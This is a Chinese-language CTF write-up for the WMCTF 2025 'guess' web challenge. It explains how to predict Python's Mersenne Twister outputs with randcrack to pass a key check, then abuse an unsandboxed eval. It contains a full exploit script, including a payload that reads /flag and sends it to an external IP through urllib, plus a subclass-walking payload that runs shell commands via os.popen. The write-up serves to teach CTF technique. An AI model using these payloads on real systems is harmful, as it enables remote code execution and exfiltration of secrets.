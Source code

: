 ```yaml
---
layout: page
title: Blog
permalink: /blog/
---
```


# WMCTF 2025 WP
## guess WP
### 首先，这个题目注册登录谁都会，所以我们直接看关键代码：
```python
import random

rd = random.Random() // 关键点1


@app.post('/api')
def protected_api():

    data = request.get_json()

    key1 = data.get('key')
    
    if not key1:
        return jsonify({'error': 'key are required'}), 400

    key2 = generate_random_string()
    
    if not str(key1) == str(key2):
        return jsonify({
            'message': 'Not Allowed:' + str(key2) ,
        }), 403
    

    payload = data.get('payload')

    if payload:
        eval(payload, {'__builtin__':{}})  // 关键点2
    
    return jsonify({
        'message': 'Access granted',
    })

```

### 预测随机数
如代码所示，这里使用的是random库的random函数，这个函数的算法实际上是梅森旋转算法，根据前随机生成的624个数字可以预测下一个数字，所以这里我们第一步需要破解随机数
py脚本如下：
```python
import requests, re
from randcrack import RandCrack

url = "http://49.232.42.74:32328/api"
session = "eyJ1c2VyX2lkIjoiMzM5NTYxNzk0MyIsInVzZXJuYW1lIjoiYWRtaW4ifQ.aM62Kg.XvLwMeAsN6Bx2n66X2JejxJZR1E"

with open("number.txt", 'w') as f:
    f.write('')

for _ in range(624):
    response = requests.post(url, headers={'Cookie': session}, 
                             json={"key":123, "payload": 123}, timeout=10)
    msg = response.json().get('message', '')
    match = re.search(r':(\d+)', msg)
    number = match.group(1)
    print(msg, number)
    with open("number.txt", 'a+') as f:
        f.write(number)
        f.write("\n")

rc = RandCrack()

numbers = []
with open("number.txt", 'r') as f:
    numbers = [int(line.strip()) for line in f.readlines()]

for number in numbers:
    rc.submit(number)

key = rc.predict_getrandbits(32)
print(key)

response = requests.post(url, 
                         headers={'Cookie': session}, 
                         json=
                         {
                            "key":key,
                            "payload": """__import__('urllib').request.urlopen("http://47.95.170.101:9999/upload?msg=1"+open('/flag','r').read())"""
                         },
                         timeout=10)
for i in range(5):
    key = rc.predict_getrandbits(32)
    print(key)
print(response.content)
```
### 构造payload命令
这个脚本首先的作用是发送624次请求，然后获取返回的key2，也就是生成的随机数，然后预测下一次生成的随机数，匹配成功后就可以注入代码，上面的网页代码中虽然做了过滤，但是实际上是一个无用的过滤，因为py3已经不适用__builtin__

这里我们构造的命令注入代码是这样的：

```python
__import__('urllib').request.urlopen("http://外部服务器url/upload?msg=1"+open('/flag','r').read())
```
先读取flag的内容，然后使用python的urllib库函数发送request到服务器上接收，接着到外部服务器上直接读取flag。这是在出网的前提下才能适用的做法，下面介绍一种不出网的做法：

这个题目由于权限问题，在使用数据外带的方法之前，尝试过各种方法，比如将flag直接写入同级目录下、404污染、将flag写入login.html文件下等方法，均失败。

首先，构造出可执行系统命令的lamda函数，然后创建static静态文件夹，再将flag写入static文件夹下，之后直接访问flag文件就可以了。
payload如下：
```python
(lambda o: 
    [
        o.mkdir('static'), 
        open('static/flag','w').write(o.popen('tac /flag').read())
    ]
)(next(
    c.__init__.__globals__['os'] 
    for c in ().__class__.__base__.__subclasses__() 
    if hasattr(c.__init__,'__globals__') 
    and 'os' in c.__init__.__globals__
))
```



